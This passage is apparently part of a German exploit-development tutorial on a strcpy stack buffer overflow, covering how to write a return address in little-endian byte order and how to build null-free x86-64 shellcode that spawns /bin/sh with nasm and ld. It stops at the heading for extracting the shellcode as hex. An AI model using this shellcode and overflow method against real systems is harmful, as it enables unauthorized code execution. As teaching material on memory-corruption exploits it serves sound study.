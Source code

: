 
Aus 0x7fffffffe2f0 wird z.B. \xf0\xe2\xff\xff\xff\x7f

Die Adresse als letzte 6 Byte in unseren Input schreiben (statt den \x42) und überprüfen, ob das nun die Return-Adresse 
beim Segmentation-Fault ist.
<br><br>

___
## Schritt 7: Shellcode erstellen

Den Shellcode können wir nicht einfach mit C schreiben, da der Compiler an mehreren Stellen ein String-Terminalsymbol 
einfügen würde (z.B. nach /bin/sh), was die Funktion strcpy, die wir ausnutzen wollen, zum Abbruch bewegen würde. 
Wir schreiben den Code daher in Assemblersprache, ohne eine Null (String-Terminalsymbol) in den Code zu schreiben. Für eine Null z.B. Register mit sich selbt XOR verknüpfen. Danach erzeugen wir daraus eine ausführbare Datei und nutzen dann einen Disassembler, 
um aus der Datei wieder Assemblercode zu erzeugen. Diesmal sehen wir dann aber die Hexwerte der Assemblerbefehle und können 
sie in unseren Exploitcode einfügen.

### Assembler Code schreiben
```asm
shellcode.asm:    
    section .bss
    section .data
    section .text
        global _start

    _start:
      xor   rdx, rdx
      mov   qword rbx, '//bin/sh'
      shr   rbx, 0x8
      push  rbx
      mov   rdi, rsp
      push  rax
      push  rdi
      mov   rsi, rsp
      mov   al, 0x3b
      syscall
```

### Ausführbare Datei erstellen (ELF)
```bash
nasm -f elf64 -o shellcode.o shellcode.asm
```
### Shellcode testen
```bash
ld -o shell shellcode.o
./shell
```
### Shellcode in Hex erstellen
